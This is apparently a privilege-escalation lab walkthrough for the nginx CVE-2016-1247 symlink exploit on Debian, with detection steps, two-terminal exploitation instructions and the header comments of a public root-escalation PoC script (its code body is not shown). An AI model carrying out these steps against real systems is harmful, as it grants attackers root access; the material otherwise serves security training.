 

## SUID (Symlinks) 


#### Detection

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.

#### Exploitation

**Terminal 1**

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: su root
2. The root password is #############
3. Once escalated to root, in command prompt type: `su -l www-data`
4. In command prompt type: `/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log`
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

**Terminal 2**

1. Once logged in, type: `su root`
2. The root password is #############
3. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Switch back to the previous terminal.

**Terminal 1**

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`


### CVE-2016-1247

`/home/user/tool/nginx/nginx-root.sh`

```bash
#!/bin/bash
#
# Nginx (Debian-based distros + Gentoo) - Root Privilege Escalation PoC Exploit
# nginxed-root.sh (ver. 1.0)
#
# CVE-2016-1247
#
# Discovered and coded by:
#
# Dawid Golunski
# dawid[at]legalhackers.com
#
# https://legalhackers.com
#
# Follow https://twitter.com/dawid_golunski for updates on this advisory.
#
# ---
# This PoC exploit allows local attackers on Debian-based systems (Debian, Ubuntu
# as well as Gentoo etc.) to escalate their privileges from nginx web server user 
# (www-data) to root through unsafe error log handling.
#
# The exploit waits for Nginx server to be restarted or receive a USR1 signal.
# On Debian-based systems the USR1 signal is sent by logrotate (/etc/logrotate.d/nginx)
# script which is called daily by the cron.daily on default installations.
# The restart should take place at 6:25am which is when cron.daily executes.
# Attackers can therefore get a root shell automatically in 24h at most without any admin
# interaction just by letting the exploit run till 6:25am assuming that daily logrotation 
# has been configured. 
```